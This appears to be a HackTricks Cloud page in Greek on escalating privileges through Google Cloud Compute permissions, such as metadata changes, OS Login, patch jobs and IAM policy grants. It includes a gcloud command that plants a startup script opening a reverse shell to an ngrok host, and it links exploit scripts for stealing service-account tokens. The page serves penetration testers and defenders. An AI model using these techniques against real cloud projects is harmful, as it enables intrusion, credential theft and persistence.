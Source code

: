 # GCP - Εscalation προνομίων στο Compute

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>

## Compute

Για περισσότερες πληροφορίες σχετικά με το Compute και το VPC (δίκτυο) στο GCP ελέγξτε:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Σημειώστε ότι για να εκτελέσετε όλες τις επιθέσεις εξέλιξης προνομίων που απαιτούν τροποποίηση των μεταδεδομένων της εικόνας (όπως η προσθήκη νέων χρηστών και κλειδιών SSH) **χρειάζεται να έχετε δικαιώματα `actAs` πάνω στο SA που είναι συνδεδεμένο με την εικόνα**, ακόμη κι αν το SA είναι ήδη συνδεδεμένο!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Με αυτήν την άδεια μπορείτε **να τροποποιήσετε** τις πληροφορίες **μεταδεδομένων** μιας **εικόνας** και να αλλάξετε τα **εξουσιοδοτημένα κλειδιά ενός χρήστη**, ή **να δημιουργήσετε** έναν **νέο χρήστη με δικαιώματα sudo**. Έτσι, θα μπορείτε να εκτελέσετε μέσω SSH σε οποιαδήποτε εικονική μηχανή και να κλέψετε τον Λογαριασμό Υπηρεσιών GCP με τον οποίο λειτουργεί η εικόνα.\
Περιορισμοί:

* Σημειώστε ότι οι Λογαριασμοί Υπηρεσιών GCP που λειτουργούν σε εικόνες VM έχουν από προεπιλογή ένα **πολύ περιορισμένο εύρος εφαρμογής**
* Θα πρέπει να είστε **σε θέση να επικοινωνήσετε με τον διακομιστή SSH** για να συνδεθείτε

Για περισσότερες πληροφορίες σχετικά με το πώς να εκμεταλλευτείτε αυτήν την άδεια ελέγξτε:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Μπορείτε επίσης να εκτελέσετε αυτήν την επίθεση προσθέτοντας νέο startup-script και επανεκκινώντας την εικόνα:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Αυτή η άδεια δίνει τα **ίδια προνόμια με την προηγούμενη άδεια** αλλά για συγκεκριμένες μονάδες αντί για ολόκληρο έργο. Οι **ίδιες εκμεταλλεύσεις και περιορισμοί όπως και για την προηγούμενη ενότητα ισχύουν**.

### `compute.instances.setIamPolicy`

Αυτού του είδους άδεια θα σας επιτρέψει να **χορηγήσετε στον εαυτό σας έναν ρόλο με τις προηγούμενες άδειες** και να εξελίξετε τα προνόμια καταχρώμενοι τις.

### **`compute.instances.osLogin`**

Εάν το **OSLogin είναι ενεργοποιημένο στη μονάδα**, με αυτή την άδεια μπορείτε απλά να εκτελέσετε **`gcloud compute ssh [INSTANCE]`** και να συνδεθείτε στη μονάδα. Δεν θα έχετε **root προνόμια** μέσα στη μονάδα.

### **`compute.instances.osAdminLogin`**

Εάν το **OSLogin είναι ενεργοποιημένο στη μονάδα**, με αυτή την άδεια μπορείτε απλά να εκτελέσετε **`gcloud compute ssh [INSTANCE]`** και να συνδεθείτε στη μονάδα. Θα έχετε **root προνόμια** μέσα στη μονάδα.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Είναι δυνατόν να **δημιουργήσετε ένα εικονικό μηχάνημα με εκχωρημένο Λογαριασμό Υπηρεσίας και να κλέψετε το τεκμήριο** του λογαριασμού υπηρεσίας προσπελαύνοντας τα μεταδεδομένα για να εξελίξετε τα προνόμιά σας σε αυτόν.

Το σενάριο εκμετάλλευσης για αυτήν τη μέθοδο μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Εάν έχετε τις άδειες **`osconfig.patchDeployments.create`** ή **`osconfig.patchJobs.exec`** μπορείτε να δημιουργήσετε ένα [**patch job ή αναπτύξεις**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Αυτό θα σας επιτρέψει να μετακινηθείτε πλάγια στο περιβάλλον και να κερδίσετε εκτέλεση κώδικα σε όλες τις μονάδες υπολογιστών εντός ενός έργου.

Εάν θέλετε να εκμεταλλευτείτε χειροκίνητα αυτό, θα πρέπει να δημιουργήσετε είτε ένα [patch job](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) είτε μια [αναπτυξιακή διαδικασία](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) για ένα patch job εκτελέστε:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Για να αναπτύξετε μια αναπτυξιακή διαδικασία:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Υπάρχουν αυτοματοποιημένα εργαλεία όπως το [patchy](https://github.com/rek7/patchy) που υπάρχουν για την ανίχνευση χαλαρών άδειων και την αυτόματη μετακίνηση πλάγια.

**Μπορείτε επίσης να καταχραστείτε αυτό για μόνιμη παραμονή.**

### `compute.machineImages.setIamPolicy`

**Χορηγήστε στον εαυτό σας επιπλέον δικαιώματα** στην εικόνα μηχανής.

### `compute.snapshots.setIamPolicy`

**Χορηγήστε στον εαυτό σας επιπλέον δικαιώματα** σε ένα αντίγραφο ασφαλείας δίσκου.

### `compute.disks.setIamPolicy`

**Χορηγήστε στον εαυτό σας επιπλέον δικαιώματα** σε ένα δίσκο.

### Παράκαμψη Εμβέλειας Πρόσβασης

Ακολουθώντας αυτόν τον σύνδεσμο θα βρείτε μερικές [**ιδέες για να προσπαθήσετε να παρακάμψετε τις εμβέλειες πρόσβασης**](../).

### Τοπική Ανόδος Προνομίων στην Μονάδα Υπολογιστή GCP

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Αναφορές

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)
